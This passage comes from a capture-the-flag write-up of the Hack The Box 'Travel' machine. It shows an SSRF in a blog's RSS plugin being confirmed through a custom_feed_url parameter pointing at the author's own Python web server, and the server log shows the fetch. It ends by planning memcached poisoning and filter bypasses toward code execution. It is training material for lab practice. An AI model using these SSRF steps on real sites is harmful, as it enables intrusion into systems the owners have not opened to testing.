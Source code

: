 Using the `debug` parameter added a bit of deserialized PHP code to the middle of the page, but there was nothing that seemed immediately useful. I did notice that the key portion of the output was prefixed with `_xct` like described in the PHP code.

The `url_get_contents()` function in `rss_template.php` allows for the import of a custom URL through the `custom_feed_url` attribute, so I hosted a web server using python SimpleHTTPServer and accessed my test page by loaded my custom URL using this link: [http://blog.travel.htb/awesome-rss/?custom\_feed\_url=http://10.10.15.53:8090/test.html](http://blog.travel.htb/awesome-rss/?custom_feed_url=http://10.10.15.53:8090/test.html)

![](/assets/img/15-blank-test.png)

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET / HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET / HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET /10-awesome-rss.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET /11-feed-xml.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:48] "GET /8-xmlrpc.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 21:04:23] "GET /test.html HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 21:04:23] "GET /test.html HTTP/1.1" 200 -
```

Unfortunately the test did not actually load anything on the page, though I noticed that it did reach back to my server and pull the contents of the directory, including pulling some .png files automatically \(and interestingly also including a .netxml file I had in the directory from playing around with airodump-ng earlier that day.\)

This confirmed the SSRF vulnerability that the rudimentary PHP WAF was trying to protect against, though I still needed to figure out how to make it run code. Storing it in the memcached key that I saw being loaded through `debug.php` seemed like a likely route. Since directly referencing file includes in a URL using the most common methods were blocked, I needed to to use a less common method. Searching for SSRF file inclusion bypass led me to [https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf).
